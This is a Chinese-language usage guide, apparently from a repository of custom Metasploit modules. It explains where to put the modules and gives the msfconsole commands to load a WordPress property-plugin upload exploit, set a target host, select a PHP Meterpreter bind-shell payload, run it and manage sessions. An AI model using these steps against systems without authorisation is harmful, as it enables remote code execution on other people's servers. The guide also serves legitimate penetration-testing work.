








使用流程
========

将开放的模块放置metasploit安装目录的apps/pro/msf3/modules目录下，辅助模块放置在auxiliary目录下，利用模块放置在exploits目录下。

**启动运行环境**
::

    msfconsole

运行环境启动完成

如果运行环境正确启动，会看到类似效果:

**查找提交的模块**

命令::

    search
	
示例::

    search wp_property_upload_exec

效果:
	

**使用模块**

命令::

    use
	
示例::

    use exploit/unix/webapp/wp_property_upload_exec

效果:
	

**查看该模块的配置信息**

命令::

    show
	
示例::

    show options

效果:
	

或者使用命令 ``info`` 查看该模块更详细的信息

示例:

**设置参数**

命令::

    set
	
示例::

    set RHOST 192.168.0.110

效果:
	

**指定PAYLOAD**

在设置该模块的PAYLOAD之前需要查看该模块可用的PAYLOAD有哪些，可使用命令 ``show payloads`` 查看，示例如下:

从所列出的PAYLOAD中选择自己熟悉的PAYLOAD使用

命令::

    set PAYLOAD
	
示例::

    set PAYLOAD php/meterpreter/bind_tcp

效果:
	

PAYLOAD指定之后需要对PAYLOAD的参数进行相关设置，此处不再列举

**运行模块**

命令::

    exploit 或 run
	
**其它常用命令**

查看会话
::

    sessions -l
	
指定会话	
::

    sessions -i

.. note::

    此文档未列出获取会话之后所需要的操作命令，用户可在会话终端下通过help命令进行了解。